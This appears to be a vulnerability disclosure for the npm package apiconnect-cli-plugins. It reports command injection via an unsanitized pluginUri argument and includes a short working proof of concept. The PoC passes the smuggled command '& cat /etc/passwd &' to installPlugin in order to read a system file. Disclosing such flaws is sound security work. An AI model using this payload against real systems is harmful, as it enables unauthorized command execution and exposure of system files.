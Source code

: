 # Description

`apiconnect-cli-plugins` is vulnerable to `Command Injection`. The argument pluginUri can be controlled by users without any sanitization.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var root = require("apiconnect-cli-plugins");
var payload = "& cat /etc/passwd &";
root.pluginLoader.installPlugin(payload,"");
```

2. Execute the following commands in another terminal:

```bash
npm i apiconnect-cli-plugins # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
It will show the contents of /etc/passwd
```
